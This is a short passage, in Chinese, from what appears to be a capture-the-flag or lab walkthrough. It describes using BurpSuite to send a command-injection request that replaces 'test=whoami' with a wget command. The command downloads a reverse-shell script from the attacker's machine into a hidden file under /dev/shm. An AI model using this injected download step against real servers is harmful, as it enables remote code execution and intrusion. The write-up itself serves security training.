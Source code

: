 我从 ZAP 换成了 BurpSuite，因为它对我更有效。我再次捕获了“test=whoami”请求，将方法改为 POST，并将“test=whoami”替换为

```
test=wget 10.10.14.6:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
```

这将允许我们从我们的机器上下载 shell 脚本。

![](img/a1bcab3508450c8877da00c6a4d94ab6.png)

打嗝请求

如果我们点击“发送”，脚本应该在服务器上。
